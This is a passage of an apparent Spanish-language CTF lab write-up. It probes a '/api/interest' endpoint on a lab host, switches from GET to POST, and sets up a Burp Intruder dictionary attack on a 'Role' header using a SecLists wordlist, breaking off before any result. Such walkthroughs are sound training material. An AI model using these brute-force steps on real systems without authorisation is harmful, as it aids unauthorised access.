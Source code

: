 Tenemos una nueva ruta:
```bash
405      GET        5l       20w      153c http://cybersec.dl/api/interest
```

Cuando ingresamos a esta url:
```bash
http://cybersec.dl/api/interest
```

Nos retorna lo siguiente:
```bash
# Method Not Allowed

The method is not allowed for the requested URL.
```

Asi que si realizamos una peticion pero cambiando el metodo vemos que nos retora este mensaje:
```bash
curl -s -X POST http://cybersec.dl/api/interest

{
  "message": "Error: 'Role' header not provided"
}
```

Ahora interceptamos la petecion en esta ruta:
```bash
http://cybersec.dl/api/interest
```

Una ves interceptar cambiaremos el metodo a **POST**
```bash
POST /api/interest HTTP/1.1
Host: cybersec.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

Ahora sabiendo que esta esperando el campo **role** procedemos a agregarlo, Pero no sabemos su valor, Asi que realizaremos un ataque de diccionario desde burpsuite:
Usaremos este:
```bash
/usr/share/SecLists/Usernames/top-usernames-shortlist.txt
```

Ahora mandamos la peticion al modo **Intruder** para realizar el ataque:
En **role** tendremos el **payload**
```bash
POST /api/interest HTTP/1.1
Host: cybersec.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Role: xxxxx # Payload
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```